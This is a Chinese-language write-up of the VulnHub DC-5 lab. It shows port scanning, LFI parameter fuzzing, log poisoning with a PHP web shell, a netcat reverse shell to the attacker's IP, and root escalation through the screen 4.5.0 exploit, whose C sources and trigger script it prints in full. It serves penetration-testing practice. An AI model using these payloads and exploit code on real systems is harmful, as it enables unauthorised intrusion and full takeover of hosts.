# DC 5

下载地址：https://download.vulnhub.com/dc/DC-5.zip

## 实战演练

发现靶场IP：`192.168.32.162`



扫描对外端口

```
┌──(root💀kali)-[/tmp]
└─# nmap  -sT -sV  -p1-65535 192.168.32.162                                                                    
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-22 23:22 EDT
Nmap scan report for 192.168.32.162
Host is up (0.00019s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
80/tcp    open  http    nginx 1.6.2
111/tcp   open  rpcbind 2-4 (RPC #100000)
39437/tcp open  status  1 (RPC #100024)
MAC Address: 00:0C:29:E8:1B:52 (VMware)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.40 seconds
```

浏览器访问80端口



有一个反馈页面，提交数据之后，刷新页面会发现年份会进行改变





对参数进行暴力破解，发现`file`参数

```
┌──(root💀kali)-[/opt]
└─# wfuzz --hh 851 -w burp-parameter-names.txt -u http://192.168.32.162/thankyou.php?FUZZ=
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.32.162/thankyou.php?FUZZ=
Total requests: 6453

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                             
=====================================================================

000002206:   200        42 L     63 W       835 Ch      "file"                                              

Total time: 6.369654
Processed Requests: 6453
Filtered Requests: 6452
Requests/sec.: 1013.084
```

该参数存在LFI漏洞



查看nginx日志：`/var/log/ngnix/access.log`



使用BURP输入一句话木马

```
<?php system($_GET['cmd']) ?>
```

```
GET /thankyou.php?file=<?php system($_GET['cmd']) ?> HTTP/1.1
Host: 192.168.32.162
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
```



> 注：不可以直接在浏览器请求，不然会转义
>
>  

使用反弹shell进行连接

```
view-source:http://192.168.32.162/thankyou.php?file=/var/log/nginx/error.log&cmd=nc%20-e%20/bin/bash%20192.168.32.130%2017777
```



查看suid的进程

```
www-data@dc-5:~/html$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/bin/su
/bin/mount
/bin/umount
/bin/screen-4.5.0
/usr/bin/gpasswd
/usr/bin/procmail
/usr/bin/at
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/sbin/exim4
/sbin/mount.nfs
```

查看screen的提权漏洞



直接提权会失败，因为环境缺乏gcc



将需要GCC的代码拆分出来

libhax.c

```
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
```

rootshell.c

```
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
```

41154.sh

```
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

编译

```
┌──(root💀kali)-[/tmp]
└─# gcc -fPIC -shared -ldl -o libhax.so libhax.c
libhax.c: In function ‘dropshell’:
libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
    7 |     chmod("/tmp/rootshell", 04755);
      |     ^~~~~
                                                                                                                     
┌──(root💀kali)-[/tmp]
└─# gcc -o rootshell rootshell.c
rootshell.c: In function ‘main’:
rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    3 |     setuid(0);
      |     ^~~~~~
rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    4 |     setgid(0);
      |     ^~~~~~
rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
    5 |     seteuid(0);
      |     ^~~~~~~
rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
    6 |     setegid(0);
      |     ^~~~~~~
rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
    7 |     execvp("/bin/sh", NULL, NULL);
      |     ^~~~~~
rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]
```

打包EXP

```
┌──(root💀kali)-[/tmp]
└─# tar -cvf exp.tar.gz 41154.sh libhax.so rootshell
41154.sh
libhax.so
rootshell
```

提权成功


